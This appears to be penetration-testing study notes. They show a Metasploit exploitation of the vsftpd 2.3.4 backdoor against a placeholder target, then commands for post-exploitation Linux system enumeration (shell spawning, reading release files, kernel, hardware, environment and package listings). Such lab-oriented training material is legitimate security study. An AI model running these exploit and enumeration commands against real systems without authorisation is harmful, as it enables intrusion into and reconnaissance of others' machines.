 ```shell
ping -c -1 <target_IP>
nmap -sV <target_IP>
searchsploit vsftpd
service postgresql start && msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target_IP>
exploit

sessions -u 1
sessions
sessions -i 2
```

### 2.1. Enumerating System Information - Linux

**What are we looking for?**
- Hostname
- Distribution & distribution release version
- Kernel version & architecture
- CPU information
- Disk information & mounted drives
- Installed packages/software

```shell
# Enumerate the Linux distribution and the OS architecture
sysinfo

# We can enumerate the hostname of the system by spawning a shell session
shell
/bin/bash -i
hostname

# We can also identify the Linux distro name and release version manually
cat /etc/issue
cat /etc/*release

# Version of the Linux kernel
uname -a
uname -r

# Identify hardware information regarding the CPU being used on the target system
lscpu

# List of storage devices attached to the Linux system
df -h

# Enumerate environment variable for a specific user, useful for privilege escalation part
env
# The PAT=/usr/local/sbin: .... The PATH environement specifies the directory that is used by default whenever you type a command or rather for binaries. 

# Installed software or packages
dpkg -l
```
